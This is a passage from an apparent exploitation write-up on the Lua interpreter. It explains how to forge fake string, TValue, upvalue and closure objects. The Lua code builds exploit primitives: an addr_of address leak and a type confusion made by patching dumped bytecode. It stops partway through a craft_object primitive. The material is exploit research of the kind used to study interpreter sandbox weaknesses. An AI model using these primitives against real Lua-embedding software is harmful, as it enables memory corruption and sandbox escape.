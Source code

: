 The code visits the `cl->upvals` array, navigates to the `b`th element,
and takes the pointer to the `TValue` value (`v.p`).

All in all, what we need to craft a fake object is depicted in the image below:

![AltText](/images/alcawasm_fakeobj.png)

This deserves a try!

## Unleash the beast

A good test of our object artisanship skills would be to create
a fake string and have it correctly returned by our `craft_object`
primitive. We will choose an arbitrary length to the string, and
then verify whether lua agrees on its length once the object
is crafted to confirm the primitive.

Down below, I will list the complete code of the experiment,
which implements the diagram above:

```lua
local function ubn(n, len)
  local t = {}
  for i = 1, len do
      local b = n % 256
      t[i] = string.char(b)
      n = (n - b) / 256
  end
  return table.concat(t)
end

asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\x00\x00", "\x38\x00\x00\x80"))

function addr_of(variable)
  return string.unpack("L", string.pack("d", asnum(variable)))
end

--  next + tt/marked/extra/padding/hash + len
fakeStr = ubn(0x0, 12) .. ubn(0x1337, 4)
print(string.format("Fake str at: 0x%2x", addr_of(fakeStr)))

-- Value + Type (LUA_VLNGSTRING = 0x54)
fakeTValue = ubn(addr_of(fakeStr) + 16, 8) .. ubn(0x54, 1)
print(string.format("Fake TValue at: 0x%2x", addr_of(fakeTValue)))

-- next + tt/marked + v
fakeUpvals = ubn(0x0, 8) .. ubn(addr_of(fakeTValue) + 16, 8)
print(string.format("Fake Upvals at: 0x%2x", addr_of(fakeUpvals)))

-- upvals
fakeClosure = ubn(addr_of(fakeUpvals) + 16, 8)
print(string.format("Fake Closureat : 0x%2x", addr_of(fakeClosure)))

craft_object = string.dump(function(closure)
    local foo
    local bar
    local target
    return (function(closure)
      (function(closure)
        print(foo)
        print(bar)
        print(target)
        target = closure
```